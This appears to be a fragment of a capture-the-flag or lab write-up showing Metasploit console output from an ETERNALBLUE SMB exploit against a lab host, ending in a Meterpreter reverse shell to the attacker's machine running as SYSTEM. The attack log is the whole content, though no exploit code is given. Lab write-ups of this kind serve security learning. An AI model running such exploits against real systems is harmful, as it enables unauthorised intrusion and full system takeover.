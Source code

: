 ```bash
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.40:49158) at 2024-12-25 03:22:41 -0500
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

I got SYSTEM's shell!